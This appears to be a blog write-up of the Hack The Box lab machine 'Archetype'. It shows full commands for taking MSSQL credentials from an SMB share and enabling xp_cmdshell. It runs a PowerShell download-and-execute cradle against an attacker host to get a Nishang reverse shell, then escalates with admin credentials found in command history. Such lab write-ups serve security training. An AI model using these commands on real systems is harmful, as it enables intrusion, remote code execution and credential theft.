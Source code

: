 ```yaml
---
layout: post
title:  "Archetype"
date:   2022-07-16 10:00:00 +1000
category: hacking
---
```


Need to make a few notes with this. Firstly, we have MSSql server creds obtained through an unsecured SMB share:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb]
└─# cat prod.dtsConfig
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
{% endhighlight %}

Now we use Impacket **mssqlclient.py** like [so](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/):

{% highlight shell %}
┌──(root💀kali)-[/opt/htb]
└─# python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sql_svc@10.129.238.160 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.61/Invoke-PowerShellTcp.ps1\")
{% endhighlight %}

The ps1 script was from Nishang:

{% highlight shell %}
┌──(root💀kali)-[/opt/scripts]
└─# git clone https://github.com/samratashok/nishang 
Cloning into 'nishang'...
remote: Enumerating objects: 1699, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 1699 (delta 2), reused 4 (delta 1), pack-reused 1691
Receiving objects: 100% (1699/1699), 10.88 MiB | 9.62 MiB/s, done.
Resolving deltas: 100% (1061/1061), done.
{% endhighlight %}

and

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/starting_point/archetype]
└─# cp /opt/scripts/nishang/Shells/Invoke-PowerShellTcp.ps1 .
┌──(root💀kali)-[/opt/htb/starting_point/archetype]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.238.160 - - [15/Jul/2022 23:04:33] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
{% endhighlight %}

and

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/starting_point/archetype]
└─# nc -nvlp 443  
listening on [any] 443 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.238.160] 49676
Windows PowerShell running as user sql_svc on ARCHETYPE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
{% endhighlight %}

Next, run winPEAS and it does work but displays *nothing* until it's finished:

{% highlight shell %}
PS C:\Temp> Invoke-WebRequest -Uri 'http://10.10.14.61/winPEAS.bat' -OutFile C:\Temp\winpeas.bat
PS C:\Temp> dir

Directory: C:\Temp
Mode                LastWriteTime         Length Name                                                                 
----                -------------         ------ ----                                                                  
-a----        7/15/2022   8:09 PM          35946 winpeas.bat                                                       
PS C:\Temp> .\winpeas.bat
{% endhighlight %}

We find some creds:

{% highlight shell %}
PS C:\Temp> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!! exit                                                                                                                      PS C:\Temp>
{% endhighlight %}

And need to read our file:

{% highlight shell %}
PS C:\Users\sql_svc\Desktop> $Username = 'Administrator'
PS C:\Users\sql_svc\Desktop> $Password = 'MEGACORP_4dm1n!!'
PS C:\Users\sql_svc\Desktop> $pass = ConvertTo-SecureString -AsPlainText $Password -Force                                                                                                                          
PS C:\Users\sql_svc\Desktop> $Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass 
PS C:\Users\sql_svc\Desktop> Invoke-Command -ComputerName "ARCHETYPE" -Credential $Cred -ScriptBlock {Get-Content C:\Users\Administrator\Desktop\root.txt}
# flag obtained
{% endhighlight %}
